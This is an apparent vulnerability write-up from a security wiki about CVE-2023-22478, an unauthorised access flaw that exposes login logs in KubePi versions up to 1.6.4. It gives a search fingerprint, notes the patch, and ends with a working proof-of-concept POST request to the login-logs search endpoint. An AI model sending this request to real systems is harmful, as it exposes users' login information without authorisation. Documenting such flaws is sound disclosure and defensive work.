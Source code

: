# KubePi LoginLogsSearch Unauthorized Access Vulnerability CVE-2023-22478

## Vulnerability Description

The interface under the KubePi LoginLogsSearch method has an unauthorized access vulnerability. The attacker can obtain the user's login log information without authorization, further breaking the user.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">KubePi <= v1.6.4</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">"kubepi"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1682440791240-01629ee9-05d4-4eff-a15f-aede8707d482.png)

Authentication was added to the route in the patch

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1682440845494-1d058852-8474-4681-bd3e-6b1545000a75.png)

The corresponding interface is

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1682440907690-5156d5b7-4e4d-4a33-9d79-7d489e0411a9.png)



Verify POC

```php
POST /kubepi/api/v1/systems/login/logs/search?pageNum=1&&pageSize=10 HTTP/1.1
Content-Type: application/json

{}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1682440828484-ab47f1ea-42c1-4ec1-af79-0832a6e277ad.png)